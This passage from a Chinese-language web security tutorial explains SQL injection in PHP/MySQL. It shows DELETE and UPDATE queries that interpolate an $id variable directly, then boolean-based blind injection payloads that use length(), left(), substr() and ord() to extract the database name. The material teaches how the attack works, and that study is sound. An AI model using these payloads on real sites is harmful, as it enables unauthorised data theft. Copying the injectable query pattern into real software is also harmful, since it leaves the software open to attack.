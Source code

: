 3. 功能：删除用户，删除新闻等（注重结果）
   删除：

   ```sql
   DELETE FROM news WHERE id=$id
   ```

4. 功能：修改用户，修改文章等（注重结果）
   修改：

   ```sql
   UPDATE news SET id=$id
   ```

### 演示

insert是如何进行注入的？

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4404.png)

## PHP—MYSQL—注入函数-布尔&报错&延迟

盲注就是在==注入过程中，获取的数据不能回显==至前端页面。

我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注。

解决：常规的联合查询注入不行的情况

我们可以知道盲注分为以下三类：

### 基于布尔的 SQL 盲注-逻辑判断（需要有回显）

regexp,like,ascii,left,ord,mid

```sql
#检查当前数据库名称的长度是否为7。
and length(database())=7;

#left(a,b)，从左侧截取a的前b位。
#检查当前数据库名称的前一个字符是否为 'p'。
and left(database(),1)='p';
#检查当前数据库名称的前两个字符是否为 'pi'。
and left(database(),2)='pi';

#substr(a,b,c)，从位置b开始，截取字符串a的c长度。
#检查当前数据库名称的第一个字符是否为 'p'
and substr(database(),1,1)='p';
#检查当前数据库名称的第二个字符是否为 'i'
and substr(database(),2,1)='i';

#ord=ascii，ascii(p) = 112，判断p的ascii码是否等于112
#使用 ord 函数将第一个字符的ASCII值转换为整数，并检查它是否等于112
and ord(left(database(),1))=112;
```

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4401.png)
